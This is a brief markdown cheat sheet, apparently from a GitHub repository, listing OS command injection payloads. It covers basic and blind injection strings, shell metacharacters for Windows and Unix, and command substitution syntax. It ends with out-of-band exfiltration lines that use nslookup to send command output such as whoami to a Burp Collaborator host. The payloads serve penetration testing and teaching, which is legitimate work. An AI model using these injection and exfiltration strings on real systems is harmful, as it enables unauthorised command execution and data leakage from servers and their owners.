 ## OS Command Injection:
- & whoami &
- |whoami
- echo hello
- || whoami ||

## Blind OS Command Injection:
- & ping -c 10 127.0.0.1 & (This is will send 10 ICMP packets, so there will be time delay)
- ||whoami > /var/www/html/whoami.txt

## Shell metacharacters for OS Command Injection 
	
### Windows and Unix:
- &
- &&
- |
- ||

### Unix only:
- ;
- Newline (0x0a or \n)

### Inline execution of an injected command within the original command (Unix only):
- \`injected command\`
- $(injected command)

## Data exfiltration through OS Command Injection (OAST):
- ||nslookup 9jtnjcnvxt3qxavtcqhp252vemkc81.burpcollaborator.net||
- ||nslookup \`whoami\`.hacker.burpcollaborator.net||